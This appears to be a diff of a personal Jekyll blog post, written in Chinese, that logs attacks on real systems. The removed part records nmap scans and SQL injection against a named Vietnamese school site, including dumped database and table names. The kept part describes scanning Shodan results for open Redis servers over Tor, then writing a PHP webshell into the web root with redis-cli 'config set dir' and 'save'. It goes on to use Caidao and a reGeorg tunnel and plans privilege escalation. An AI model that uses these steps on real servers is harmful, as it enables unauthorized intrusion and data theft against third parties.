

Before and after one commit to alivk353/alivk353.github.io, a Jekyll site: the page built from _posts/2017-10-08-redis-result.md, in a window 1280 px wide. Shown: the top 1920 px of the page at 81% size, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
modify two

````diff
--- a/_posts/2017-10-08-redis-result.md
+++ b/_posts/2017-10-08-redis-result.md
@@ -1,105 +1,13 @@
+# 对redis未授权访问漏洞利用测试
 
-# 对目标1的渗透测试
-### 信息收集
-#### 菲律宾 php url：http://www.daotaonlyt.edu.vn/index.php?id=850
-```
-nslookup 查询ip 	118.69.204.204
-Email[foo@mbnet.fi]
-```
-#### nmap基础扫描
-```code
-		20/tcp   closed ftp-data
-		21/tcp   open   ftp
-		23/tcp   closed telnet
-		25/tcp   open   smtp
-		80/tcp   open   http
-		110/tcp  open   pop3
-		143/tcp  open   imap
-		443/tcp  open   https
-		465/tcp  open   smtps
-		587/tcp  open   submission
-		993/tcp  open   imaps
-		995/tcp  open   pop3s
-		3306/tcp open   mysql
-		8443/tcp closed https-alt
-```
-#### nmap 操作平台扫描
-```
- Aggressive OS guesses: Microsoft Windows XP SP3 or Windows 7 or Windows Server 2012 (95%), Microsoft Windows XP SP3 (95%), Actiontec MI424WR-GEN3I WAP (94%), Linux 3.2 (93%), DD-WRT v24-sp2 (Linux 2.4.37) (92%), Linux 4.4 (91%), VMware Player virtual NAT device (87%), BlueArc Titan 2100 NAS device (87%)
-```
-### AWVS默认扫描(侧重点：sql注入)：
-```
-		- apache+php+access
-		- 4个盲注点，1个数据库爆破点
-			/index.php?
-		- 缺乏csrf保护，且登录数据明文传输
-			/
-			/atmail/index.php
-			/index.php
-			/index.php (054442b0b75dbfffca5b3df73d4e62e8)
-			/index.php (91e79522bf13f8bcaa7fbbfb4285d867)
-		- error信息未隐藏
-		- session 未开启http-only保护
-		- phpinfo暴露
-			/php.php
-		- javascrip库版本过低，带漏洞
-			/JScript/jquery.min.js     http://bugs.jquery.com/ticket/11290
-```
-#### 明小子进行注入
-```
-		- 注入点可注入，暴力拆解不出表名，不知道原因。
-	7.手工检测注入点
-		- order by 检测列数为24
-		- 爆出显位 2 6 14-21
-		- 2号位 联合查询当前数据库信息：daotaonlyt_thanh@localhost : daotaonlyt_dhyd : 5.0.51a-community
-		- 2号位 全部数据库: information_schema,daotaonlyt_dhyd
-		- 2号位 全部表名：语句执行出错，卡主，回到sqlmap
-	8.sqlmap爆表名
-		| buoihoc    |
-		| counter    |
-		| giangduong |
-		| hocvien    |
-		| ketqua     |
-		| kienthuc   |
-		| loailop    |
-		| lop        |
-		| nganh      |
-		| nhatky     |
-		| t_bao      |
-		| thanhvien  |
-		| tintuc     |
-		| tuan       |
-		| useronline |
- 	9.sqlmap-具体列名
- 		爆出来的东西大部分是没有意义的字母组合，谷歌翻译也没办法处理，搁置。
+## 代理
 
-
- 	10. 发现Squirrelmail邮件登录地址，明文传输且没有验证码，尝试burpsuite抓包爆破。
- 		网速太慢，搁置。
-```
-
-
-### sqlmap进行注入检测
-```code
-current user:'daotaonlyt_thanh@localhost'
-[*] 'daotaonlyt_thanh'@'localhost' [1]:
-    privilege: USAGE
-web application technology: Apache 2, PHP 5.2.17
-back-end DBMS: MySQL >= 5.0.12
-current database:'daotaonlyt_dhyd'
-available databases [2]:
-[*] daotaonlyt_dhyd
-[*] information_schema
-
-```
-
-# 对redis未授权访问漏洞利用测试
-### 代理
 配置proxychains使用tor网络，开启ss-server进程：
 
 > proxychains ss-server -c tor_config.json -f pid 2
 
-### 通过shodan提供的API:
+## 通过shodan提供的API:
+
 > 账户权限不够，只能获取前100条数据进行测试。
 
 ```python
@@ -116,11 +24,12 @@
 	print(e)
 ```
 
-### 测试是否存在redis未授权
+## 测试是否存在redis未授权
 
 > pocsuite -f redis_ip.txt -r redis_poc.py -proxy 127.0.0.1:1080
 
-#### 利用POC:
+### 利用POC:
+
 ```python
 #!/usr/bin/env python
 # -*- coding:utf-8 -*-
@@ -183,6 +92,7 @@
 
 register(TestPOC)
 ```
+
 结果：
 > success : 40 / 54
 
@@ -191,18 +101,22 @@
  利用exp: https://github.com/Xyntax/POC-T/blob/master/script/redis-sshkey-getshell.py
  > 结果 1/40
 
-### 探测是否开放80端口
+## 探测是否开放80端口
+
 > nmap -Pn -sS -p80,443,8080, -iL redis_success_ip.txt -oX ./redis_http_ip.xml
 
-#### 使用脚本枚举绝对路径
+### 使用脚本枚举绝对路径
+
 exp：https://github.com/Xyntax/POC-T/blob/master/script/redis-web-probe.py
 
 ![path](https://nanazeven.github.io/image/path.png)
-#### 批量识别指纹
+
+### 批量识别指纹
 
 > whatweb --no-error -i redis_http.txt --log-brief=res_out
 
-#### 手动连接测试
+### 手动连接测试
+
 ```code
 proxychians redis-cli -h ip:6379
 config set dir /var/www/html
@@ -210,22 +124,27 @@
 set x "<?php phpinfo();?>"
 save
 ```
-#### 成功写入webshell：
+
+### 成功写入webshell：
+
 ![res1](https://nanazeven.github.io/image/res1.png)
 
-#### 连接菜刀&上传端口转发脚本&查看权限
+### 连接菜刀&上传端口转发脚本&查看权限
+
 使用SocksCap64启动caodao.exe
 
 > 端口转发脚本：https://github.com/sensepost/reGeorg
 
-```
+```bash
 $ whoami
 $ www-data
 $ ifconfig
 ```
+
 执行ifconfig发现存在和其他网络的联通。需要提权。
 
 ## 另一个目标：使用默认目录作为项目根目录
+
 成功写入webshell，是用菜刀上传端口转发脚本。
 www-data需要提权
 ![res2](https://nanazeven.github.io/image/res2.png)
````
Also changed, not shown: _posts/2019-06-06-python_virenv.md (+1 -1 lines).
